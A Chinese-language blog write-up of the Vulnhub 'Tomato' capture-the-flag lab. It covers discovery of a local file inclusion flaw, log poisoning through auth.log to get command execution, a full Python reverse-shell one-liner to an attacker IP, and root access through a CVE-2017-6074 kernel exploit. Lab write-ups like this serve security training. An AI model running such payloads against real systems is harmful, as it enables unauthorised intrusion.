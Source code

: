 ```yaml
---
title: Tomato
date: 2021-12-24 20:35:20
tags: Vulnhub
categories: LFI
---
```


## 信息收集
运行我们的bash脚本，发现目标系统开放了ftp和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/b2f1b07f20b74e8cbbf09d8aceb93286.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试是否可以匿名登录ftp，未果
![在这里插入图片描述](https://img-blog.csdnimg.cn/074a7cd93bf64ed3aa33a1e7ba57281e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

我们访问web服务，发现是一个番茄图片，查看源码也没什么发现

<!--more-->

![在这里插入图片描述](https://img-blog.csdnimg.cn/6fbb54145b634516a076f26d15d098ad.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

我们fuzz一下路径，发现了存在一个antibot_image路径

```bash
dirsearch -u "http://192.168.101.197/" -e * -x404,500,403 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fa0487042a3d48909ab79d96a12532a8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

我们发现存在一个info.php文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/a59aa7bf23b2400cb4fd41b01cea33d7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
文件的源码提示我们存在文件包含漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/39d170ef77ee482988bbfd4d37ecc20b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们验证漏洞确实是真实存在的
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6bee6c21fc2499999963c8682e6f3cf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用
我们尝试将一句话写进日志文件中，日志文件的路径为`/var/log/auth.log`，发现已被写入日志并成功执行我们的命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/8fc98d199a4845c1a5e8d72245c7b934.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf1f3a8f67a6457998b22f5bd225ccc2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查找python是否存在，若存在则可以反弹shell到我们本地的机子上。可以看到python是存在的，并且版本为3.5
![在这里插入图片描述](https://img-blog.csdnimg.cn/4d606cef990543d381d880d6a94f170c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将执行如下的payload添加到cmd参数后获得一个shell

```python
python3 -c 'import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.101.196",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8ac1207e853b4bfa8655671b22b4939d.png)
## 提权
我们将linpeas.sh脚本上传到靶机上，并执行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/23a8477f887a40c3b6df7f1df69d406b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现存在一个linux内核漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/e962cb6858c242bea4f04c0d8d28b3b1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个内核漏洞对应的漏洞编号为`CVE-2017-6074`，我们将其编译变上传到靶机上，执行即root
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d5db74c976140df8fd5b0d408768a02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/335e4f13aa7e4d8c9ebaf95cb4c8749c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
